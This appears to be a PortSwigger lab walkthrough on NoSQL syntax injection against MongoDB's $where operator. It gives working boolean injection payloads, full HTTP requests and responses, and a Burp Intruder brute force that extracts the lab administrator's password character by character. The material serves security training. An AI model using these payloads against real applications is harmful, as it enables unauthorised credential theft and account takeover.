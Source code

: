 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d65cd1cd-7ed3-4cc3-b632-9aeb22fada48)

## Overview :

#### Exploiting syntax injection to extract data

In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database. 

#### Exfiltrating data in MongoDB

Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
https://insecure-website.com/user/lookup?username=admin

This results in the following NoSQL query of the users collection:
```json
{"$where":"this.username == 'admin'"}
```

 As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```json
admin' && this.password[0] == 'a' || 'a'=='b
```

This returns the first character of the user's password string, enabling you to extract the password character by character.

You could also use the JavaScript match() function to extract information. For example, the following payload enables you to identify whether the password contains digits:
```json
admin' && this.password.match(/\d/) || 'a'=='b
```

## Solution :

Login as wiener. 

The following is the request & response sent .

**Request -**

```http
GET /user/lookup?user=wiener'+' HTTP/1.1
Host: 0a5a000604a69386817f4d0c00d50033.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5a000604a69386817f4d0c00d50033.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=IxSUIRgjxiu4z9R8PqzaavxdpaT460zx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

**Response -**

```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:10:55 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

The response contains the username , email & also the role of that user.

Inserting a `'` in the request ie (`user=wiener'`)causes an error in response .
```json
{
  "message": "There was an error getting user details"
}
```

The backend query might look something like this - `this.user == 'wiener'`

> This input likely results in an error because the application is attempting to execute a NoSQL query and the single quote (') is prematurely terminating the query, causing a syntax error - (`user='wiener''`).



But upon sending  `wiener'%2b'` (URL encoded form of `wiener'+'`) returns the details of wiener as usual.
```json
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:13:42 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```
> The plus sign (+) is acting as a **concatenation** or a way to continue the query. So, the resulting query might look like user=wiener' + '', and the plus sign helps to combine the intended query with the rest of the query, making it syntactically correct and allowing the query to proceed.

By this we can understand that the injected nosql query is being evaluated at the backend.

### Injecting boolean conditions -

**False condition:**

Inject `?user=wiener' && '1'=='2` , this triggers the following error in response.
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:53:40 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 38
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "message": "Could not find user"
}
```

**True condition:**

Inject `?user=wiener' && '1'=='1` , this results ina successful response .
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:57:20 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

### Finding the length of password :

To find the length of the password , we can use the following query
```sql
?user=administrator' && this.password.length==30%00
```

> We can stop at *<30* but since the query has a *'* at the end, we provide the *OR* query ie(** || 'a'=='a**).
> Note that we don't end the equal statement with a `'` because there is a trailing `'` at the end of the query getting added automatically at the end.

So the request looks like ,

```http
GET /user/lookup?user=administrator'%20%26%26%20this.password.length%20%3c%2030%20%7c%7c%20'a'%3d%3d'b HTTP/1.1
Host: 0a900010049b475283fbcdf900820099.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a900010049b475283fbcdf900820099.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=oWJad6obyaXSGiOE2hIcpAZ3ZXwcrhGS
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

The response shows the email of admin. It means the query is executed successfully & confirming that **the password length is less than 30.**
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 06:02:34 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 96
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

When we provide `this.password.length < 8`, the query fails & we get a failed response (*"message": "Could not find user"*).

So **the length of admin's password is 8**.

### Finding admin's password -

Now we ned to bruteforce each position from **0-7** by bruteforcing it with **a-z** to find the password.

Modify the nosql query payload as follows.

```nosql
user=administrator' && this.password[0]=='a
```

Send the request to Intruder tab, Add the `this.password[**$0$**]` as payload 1 and `this.password[$0$]='**$a$**` as paylaod 2.

Payload 1 - Numbers from 1-10
Payload 2 - Characters from a-z

Click on start attack.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3f359128-701e-4712-a572-63034bbb6da1)

Now we have the admin's password - `oiwpuaam`

Login as admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b7dee7d-f2c9-4e1b-98d8-ca8cff9e85d5)
